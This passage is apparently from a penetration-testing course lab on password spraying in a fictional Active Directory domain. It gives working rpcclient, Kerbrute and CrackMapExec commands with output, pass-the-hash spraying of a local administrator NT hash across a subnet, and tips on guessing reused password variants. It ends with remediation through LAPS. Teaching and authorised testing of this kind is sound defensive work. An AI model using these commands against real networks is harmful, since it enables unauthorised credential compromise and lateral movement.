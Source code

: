 Now that we have created a wordlist using one of the methods outlined in the previous sections, it’s time to execute our attack. The following sections will let us practice Password Spraying from Linux and Windows hosts. This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.

---

## Internal Password Spraying from a Linux Host

Once we’ve created a wordlist using one of the methods shown in the previous section, it’s time to execute the attack. `Rpcclient` is an excellent option for performing this attack from Linux. An important consideration is that a valid login is not immediately apparent with `rpcclient`, with the response `Authority Name` indicating a successful login. We can filter out invalid login attempts by `grepping` for `Authority` in the response. The following Bash one-liner (adapted from [here](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)) can be used to perform the attack.

#### Using a Bash one-liner for the Attack

  Internal Password Spraying - from Linux

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Let's try this out against the target environment.

  Internal Password Spraying - from Linux

```shell-session
trmchale@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

We can also use `Kerbrute` for the same attack as discussed previously.

#### Using Kerbrute for the Attack

  Internal Password Spraying - from Linux

```shell-session
trmchale@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```

There are multiple other methods for performing password spraying from Linux. Another great option is using `CrackMapExec`. The ever-versatile tool accepts a text file of usernames to be run against a single password in a spraying attack. Here we grep for `+` to filter out logon failures and hone in on only valid login attempts to ensure we don't miss anything by scrolling through many lines of output.

#### Using CrackMapExec & Filtering Logon Failures

  Internal Password Spraying - from Linux

```shell-session
trmchale@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

After getting one (or more!) hits with our password spraying attack, we can then use `CrackMapExec` to validate the credentials quickly against a Domain Controller.

#### Validating the Credentials with CrackMapExec

  Internal Password Spraying - from Linux

```shell-session
trmchale@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

---

## Local Administrator Password Reuse

Internal password spraying is not only possible with domain user accounts. If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network. Local administrator account password reuse is widespread due to the use of gold images in automated deployments and the perceived ease of management by enforcing the same password across multiple hosts.

CrackMapExec is a handy tool for attempting this attack. It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.

When working with local administrator accounts, one consideration is password re-use or common password formats across accounts. If we find a desktop host with the local administrator account password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. Also, if we find non-standard local administrator accounts such as `bsmith`, we may find that the password is reused for a similarly named domain user account. The same principle may apply to domain accounts. If we retrieve the password for a user named `ajones`, it is worth trying the same password on their admin account (if the user has one), for example, `ajones_adm`, to see if they are reusing their passwords. This is also common in domain trust situations. We may obtain valid credentials for a user in domain A that are valid for a user with the same or similar username in domain B or vice-versa.

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set. In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine. The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`. By default, without the local auth option set, the tool will attempt to authenticate using the current domain, which could quickly result in account lockouts.

#### Local Admin Spraying with CrackMapExec

  Internal Password Spraying - from Linux

```shell-session
trmchale@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

The output above shows that the credentials were valid as a local admin on `3` systems in the `172.16.5.0/23` subnet. We could then move to enumerate each system to see if we can find anything that will help further our access.

This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth. It is always worth looking for this issue during penetration tests, even if it is not part of our path to compromise the domain, as it is a common issue and should be highlighted for our clients. One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.